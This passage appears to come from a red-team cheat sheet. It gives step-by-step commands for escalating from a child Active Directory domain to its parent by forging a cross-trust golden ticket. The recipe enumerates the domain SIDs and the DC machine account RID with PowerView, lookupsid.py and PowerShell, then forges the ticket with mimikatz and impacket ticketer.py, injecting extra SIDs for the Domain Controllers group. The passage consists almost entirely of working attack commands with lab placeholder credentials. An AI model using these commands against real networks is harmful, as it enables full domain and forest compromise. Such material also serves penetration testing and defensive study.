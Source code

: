 (1) Child domain FQDN:

```
PS > $env:userdnsdomain
CHILD.MEGACORP.LOCAL
```

(2) Name of the child domain's DC machine account and its RID:

{% tabs %}
{% tab title="Windows" %}
```
PV2 > (Get-NetComputer -ComputerName DC01.child.megacorp.local -FullData | select ObjectSID).ObjectSID
PV3 > (Get-DomainComputer DC01.child.megacorp.local | select ObjectSID).ObjectSID
S-1-5-21-4266912945-3985045794-2943778634-1337
```
{% endtab %}
{% tab title="Linux" %}
```
$ lookupsid.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local | grep SidTypeUser | grep -i DC01
1337: MEGACORP\DC01$ (SidTypeUser)
```
{% endtab %}
{% endtabs %}

(3) SID of the child domain:

{% tabs %}
{% tab title="Windows" %}
```
PV > Get-DomainSID
S-1-5-21-4266912945-3985045794-2943778634
```
{% endtab %}
{% tab title="Linux" %}
```
$ lookupsid.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 0 | grep 'Domain SID'
[*] Domain SID is: S-1-5-21-4266912945-3985045794-2943778634
```
{% endtab %}
{% endtabs %}

(4) SID of the parent domain:

```
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
S-1-5-21-2284550090-1208917427-1204316795-502
```

Create cross-trust golden ticket:

{% tabs %}
{% tab title="Windows" %}
```
mimikatz # kerberos::golden /domain:child.megacorp.local /user:DC01$ /id:1337 /groups:516 /sid:S-1-5-21-4266912945-3985045794-2943778634 /sids:S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 /krbtgt:00ff00ff00ff00ff00ff00ff00ff00ff /ptt [/startoffset:-10 /endin:60 /renewmax:10080]
```
{% endtab %}
{% tab title="Linux" %}
```
$ ticketer.py -domain child.megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 {-nthash <RC4_32> | -aesKey <AES_64> } [-groups 516] [-user-id 1337] [-duration 3650] -extra-sid S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 'DC01$'
```
{% endtab %}
{% endtabs %}
